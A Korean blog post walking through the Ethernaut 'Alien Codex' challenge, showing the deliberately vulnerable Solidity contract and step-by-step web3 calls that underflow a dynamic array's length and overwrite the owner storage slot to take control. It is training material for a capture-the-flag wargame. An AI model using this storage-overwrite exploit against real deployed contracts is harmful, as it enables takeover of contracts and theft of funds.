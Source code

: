 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 19) Alien Codex
date: '2022-01-25 14:32:00'
author: 한성원
tags: ethernaut AlienCodex vulnerability 
categories: 취약점분석
---
```



# 👋 1. Alien Codex
__Difficulty 7/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Alien contract의 ownership 가져오기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
// 컴파일러 버전 0.5.0을 사용하고 있다. 즉 under & overflow 취약점을 가지고 있다.
pragma solidity ^0.5.0;

// 우리가 모르는 Ownable-05.sol contract를 import한다.
import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

    bool public contact;
    bytes32[] public codex;

    // contact이 true인지 확인하는 modifier
    modifier contacted() {
        assert(contact);
        _;
    }
    
    // contact의 value를 true로 만들 수 있는 function
    function make_contact() public {
        contact = true;
    }

    // codex array에 _content를 push 할 수 있는 function
    // modifier: contacted
    function record(bytes32 _content) contacted public {
        codex.push(_content);
    }

    // codex의 length를 줄일 수 있다. 아마 pop과 같은 역할을 위해 만든게 아닐까 싶다.
    // modifier: contacted
    function retract() contacted public {
        codex.length--;
    }

    // codex array안에 i위치에 있는 _content를 바꿀 수 있다.
    // modifier: contacted
    function revise(uint i, bytes32 _content) contacted public {
        codex[i] = _content;
    }
}
```
- - -

## 풀이
### 들어가기 전
이 문제에서 우리의 목표는 Alien contract의 ownership 가져오는 것이다.

우선 힌트를 보자!
1. array storage가 어떻게 작동하는지 이해해야한다.
2. ABI의 특징을 이해해야한다.
3. Using a very underhanded approach -> 아마 underhanded solidity contest에 관해 말하는 것 같은데... 
그것처럼 풀라는건가? 정확히는 모르겠다. 추후 알게되면 업데이터하도록 하겠다!

우리의 승리 조건은 owner를 가져오는 것이지만 코드를 아무리 둘러봐도 `owner`를 바꿀 수 있는 function은 존재하지 않는다. 하지만 모든 `state variable`은 동인한 `storage`에 저장된다. 만약 우리가 모든 storage에 대한 access를 가진다면 어떻게 될까? 

이 문제는 `codex[]`의 길이를 최대값으로 만든 후 모든 storage에 대한 access를 가진다. 이후 `revise()`를 통해 owner의 위치에 값을 바꿔놓으면 해결할 수 있다.

이 문제를 풀기 위해서는 storage에 대한 지식이 없다면 풀 수 없다. state vaiable들이 어떤 방식으로 저장되는지 알아야한다. 관련해서는 다음 글들을 읽어보고 오길 바란다.
- [(Ethernaut 취약점 12) Privacy](https://holyhansss.github.io/ethernaut/12_privacy_ethernaut/12_privacy_ethernaut/)
- [EVM Storage에는 어떻게 변수가 저장될까? 저수준에서 확인하는 Storage 영역 - Heuristic Wave](https://medium.com/@heuristicwave/evm-storage%EC%97%90%EB%8A%94-%EC%96%B4%EB%96%BB%EA%B2%8C-%EB%B3%80%EC%88%98%EA%B0%80-%EC%A0%80%EC%9E%A5%EB%90%A0%EA%B9%8C-%EC%A0%80%EC%88%98%EC%A4%80%EC%97%90%EC%84%9C-%ED%99%95%EC%9D%B8%ED%95%98%EB%8A%94-storage-%EC%98%81%EC%97%AD-71dc3a6da8e2)

<br/>

### 풀이
먼저 make_contact() 제외하고 모든 function은 contacted modifier를 통과해야한다.
우리는 이 부분은 make_contact()를 call하는 것 만으로도 쉽게 해결할 수 있다.

`retract()`를 보면 codex의 길이를 줄이는 것을 알 수 있다. solidity 컴파일러 버젼 0.5.0은 overflow와 underflow를 throw하지 않는다.

우선 길이를 줄이기 위해서는 codex array의 값을 집어넣어야한다.

```javascript
//  우선 현재 owner를 확인해보자!
await contract.owner()

// make_contact를 통해 contact를 true로 바꾼다.
await contract.make_contact()

// record에 임의의 32 bytes 값을 넣는다.
await contract.record("0x0000000000000000000000000000000000000000000000000000000000000900")

// 이후 contract의 storage slot 0와 1의 값을 확인해보자
// slot 0에는 owner의 주소와 contact의 bool값이 들어있다.
// slot 1에는 codex[]의 길이가 들어있다
await web3.eth.getStorageAt("contract address", 0, function(err, res) {console.log(res)})
await web3.eth.getStorageAt("contract address", 1, function(err, res) {console.log(res)})

// retract()을 사용해 codex의 길이를 2^256-1로 만든다.
await contract.retract()
await contract.retract()
// 다시한번 길이를 확인해보면 '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'가 길이가 된 것을 확인할 수 있다.
await web3.eth.getStorageAt("contract address", 1, function(err, res) {console.log(res)})
```
<br/>

위 코드들을 통해 EVM Storage 전체에 대한 access를 얻었다. 즉 owner를 나 자신으로 바꿀 준비는 끝났다. 이제 owner이 저장되어있는 위치를 찾아 revise 함수를 호출하면 끝난다.

그렇다면 이제 revise()에 인자인 i를 찾아보자.
dynamic array의 경우 사이즈를 예측할 수 없기 때문에 Keccak-256 hash를 사용해 위치를 정한다.
[이 글](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)을 참조하자! <- 진짜 중요함!

dynamic array의 위치는 다음과 같은 수식을 사용해 찾을 수 있다.
`codex[y](y=2**256-x)` x는 slot의 위치이다.
codex array의 storage 위치는 `keccak256(bytes32(1))`이다.

위 수식을 remix에 대입하여 위치를 계산하면 다음과 같다.
```solidity
function arrLocation()
    public
    {
        // codex[y](y=2**256-x)
        index = (2**256-1) - uint256(keccak256(bytes32(1))) + 1; 
    }
```
<br/>

위 함수를 통해 우리는 `35707666377435648211887908874984608119992236509074197713628505308453184860938`라는 값을 얻었고 이는 owner의 storage 위치이다.

마지막으로 다음과 같이 revise를 사용해 owner를 바꿔주면 된다.
```javascript
// 두번째 인자는 32 bytes인 나의 주소이다. 20 bytes인 주소 앞에 0을 붙여주면 된다.
await contract.revise("35707666377435648211887908874984608119992236509074197713628505308453184860938","0x0000000000000000000000000d3D56806fe6eeDe410Ea9722da9a6f65FD24799")

// owner이 잘 바뀐지 확인
await web3.eth.getStorageAt("contract address", 0, function(err, res) {console.log(res)})
```
<br/>


owner가 바뀐것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
ethernaut은 후반부에 갈수록 배우는 것이 많다고 생각한다. 이 magicNumber와 마찬가지로 이번 문제에서도 EVM에 대해 더 깊이 알 수 있었던 시간이었다. 또한 underhand solidity contest에 대해서도 알게되었다. 이제 ethernaut 문제가 6개 남았는데, 문제를 다 풀고나면 underhand solidity contest문제들도 풀어보며 열심히 배우자 :)

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```